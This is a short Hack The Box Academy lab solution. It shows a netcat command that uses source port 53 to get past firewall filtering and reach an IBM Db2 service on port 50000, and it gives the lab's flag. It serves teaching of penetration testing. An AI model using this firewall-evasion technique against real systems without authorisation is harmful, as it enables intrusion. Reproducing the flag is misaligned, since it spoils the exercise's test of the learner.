 Students will find out that port 50000 is open running `IBM Db2`, thus, they need to connect to it using port 53 as the source port to attain the flag `HTB{kjnsdf2n982n1827eh76238s98di1w6}`:

```shell
sudo nc -nv -s PWNIP -p53 STMIP 50000
```
```
┌─[us-academy-1]─[10.10.14.87]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sudo nc -s 10.10.14.87 -p53 10.129.142.113 50000

220 HTB{kjnsdf2n982n1827eh76238s98di1w6}
```

Answer: `HTB{kjnsdf2n982n1827eh76238s98di1w6}`